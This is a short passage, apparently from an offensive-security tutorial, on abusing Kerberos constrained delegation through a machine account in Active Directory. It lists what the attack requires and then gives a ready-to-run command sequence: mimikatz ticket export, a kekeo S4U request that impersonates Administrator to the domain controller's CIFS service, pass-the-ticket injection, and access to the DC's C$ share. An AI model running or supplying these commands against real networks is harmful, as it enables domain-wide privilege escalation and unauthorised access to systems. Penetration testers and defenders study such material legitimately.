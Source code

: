 ### Attack ideas
##### Tickets using machine account

The key to a binding delegation attack is to obtain a forwarded service ticket ST. According to the execution process of the binding delegation, we can know that as long as the machine that configures the binding delegation service and obtains its password, we can hijack the Kerberos request process of this host and finally obtain the ticket of any user permissions.

Conditions of use:
- Requires `Administrator` permission
- The target machine account is configured with binding delegation

```powershell
# Export tickets
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit"

# Application for a ticket for a machine account
kekeo.exe "tgs::s4u /tgt:[0;3e7]-2-1-40e10000-WIN-WEB$@krbtgt-HACK.LOCAL.kirbi /user:Administrator@hack.local /service:cifs/DC.hack.local" "exit"

# Import tickets
mimikatz.exe "kerberos::ptt TGS_Administrator@hack.local@HACK.LOCAL_cifs~DC.hack.local@HACK.LOCAL.kirbi" "exit"

# Visit
dir \\DC.hack.local\C$
```

![](./images/18.png#pic_center)
